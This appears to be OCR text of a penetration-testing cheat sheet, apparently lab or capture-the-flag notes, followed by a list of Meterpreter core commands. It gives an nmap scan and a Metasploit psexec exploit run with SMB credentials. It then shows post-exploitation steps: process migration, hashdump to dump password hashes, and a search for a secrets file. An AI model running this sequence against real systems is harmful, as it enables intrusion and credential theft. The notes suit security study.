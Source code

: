 Run
      nmap -sN -Pn -A [target IP] 

      msfconsole 
      search exploit/windows/smb/psexec

      use0


      set SMBPass [password]
      set SMBUser [user]
      run
      
      sysinfo


      migrate 772
      hashdump
      

      search -f secrets.txt
Used to locate files      

      cat "path/to/file" 


<b> Core commands </b>

    background: 
               Backgrounds the current session
    sessions: 
             Quickly switch to another session           
    exit: 
         Terminate the Meterpreter session
    guid: 
         Get the session GUID (Globally Unique Identifier)
    help: 
         Displays the help menu
    info: 
         Displays information about a Post module
    irb: 
        Opens an interactive Ruby shell on the current session
    load: 
         Loads one or more Meterpreter extensions
    migrate: 
            Allows you to migrate Meterpreter to another process
    run: 
        Executes a Meterpreter script or Post module

